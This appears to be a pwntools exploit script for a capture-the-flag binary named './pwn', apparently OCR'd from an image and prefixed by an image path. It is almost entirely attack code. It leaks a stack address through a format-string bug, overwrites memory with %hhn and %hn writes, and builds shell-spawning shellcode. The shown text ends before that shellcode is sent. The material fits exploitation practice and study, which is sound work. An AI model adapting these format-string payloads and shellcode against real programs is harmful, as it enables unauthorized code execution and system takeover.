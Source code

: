 ```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

def duan():
    gdb.attach(p)
    pause()

x64_32 = 0
if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
buf=0x0804A060
pre_ebp=0x080485AD

#aaaa-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
#aaaa-0x8048680-0x4-0x8048507-0x8048685-0x804a000-0xffffce98-0x80485ad-0xf7fb5d60-0x804a000-0xffffcea8-0x80485ea-0xffffcec0-(nil)-(nil)-0xf7e1a647-0xf7fb5000-0xf7fb5000-(nil)

ru('==\n')
sl('%6$p')
ru('0x')
stack_addr=int(r(8),16)-0x28+0x1c
leak('stack_addr:',stack_addr)

#gdb.attach(p)

pl = b'%' + str(stack_addr & 0xff).encode() + b'c%6$hhn' 
pl = pl.ljust(200,b'\x00')
s(pl)
p.recv()
#duan()

pl = b'%' + str(0xa064).encode() + b'c%10$hn' 
pl = pl.ljust(200, b'\x00')
s(pl)
p.recv()
#duan()

shellcode = asm(shellcraft.sh())
pl = b'quit' + shellcode
```